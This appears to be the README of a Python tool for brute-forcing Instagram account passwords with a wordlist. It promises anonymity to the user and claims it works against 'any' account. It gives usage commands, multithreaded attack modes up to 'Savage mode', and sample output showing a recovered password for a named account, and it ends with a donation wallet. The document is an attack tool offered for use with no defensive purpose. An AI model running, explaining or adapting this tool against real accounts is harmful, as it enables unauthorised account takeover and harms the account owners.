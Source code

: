 

This program will brute force any Instagram account you send it its way. Just give it a target, 
a password list and a mode then press enter and forget about it. 
No need to worry about anonymity when using this program, its highest priority is your anonymity, 
it only attacks when your identity is hidden.

### NOTICE

I'm no longer maintaining this project.

### Support me

> **DOGECOIN wallet:** DCBonKQEYFWWPt35cbHsyk6kR2eYUPpvUn<br> >

### My Channel 

```
https://www.youtube.com/channel/UCybUWYxaSjDS9jw3j3Cf9Xg
```


### Requirements

-   Python _v3.x.x_
-   ~~Kali Linux 2.0~~
-   ~~TOR~~

### Install Dependencies

```
pip3 install -r requirements.txt
```

### Help

```
python3 instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```

### Usage

```
python3 instagram.py <username> <wordlist> -m <mode>
```

### Bots(Threads)

-   4 bots: 64 passwords at a time
-   8 bots: 128 passwords at a time
-   16 bots: 256 passwords at a time
-   32 bots: 512 passwords at a time

### Modes

-   0: 32 bots
-   1: 16 bots
-   2: 8 bots
-   3: 4 bots

### Chill mode

This mode uses only 4 bots, or 64 passwords at a time.

```
python3 instagram.py borneocyber pass.lst -m 3
```

### Moderate mode 1

This mode uses 8 bots, or 128 passwords at a time.

```
python3 instagram.py borneocyber pass.lst -m 2
```

### Moderate mode 2

This mode uses 16 bots, or 256 passwords at a time.

```
python3 instagram.py borneocyber pass.lst -m 1
```

### Savage mode

This mode uses 32 bots, or 512 passwords at a time.

```
python3 instagram.py borneocyber pass.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run

```
[-] Wordlist: pass.lst
[-] Username: borneocyber
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: pass.lst
[-] Username: borneocyber
[-] Password: borneocyber123
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: borneocyber
[+] Password: borneocyber123
```
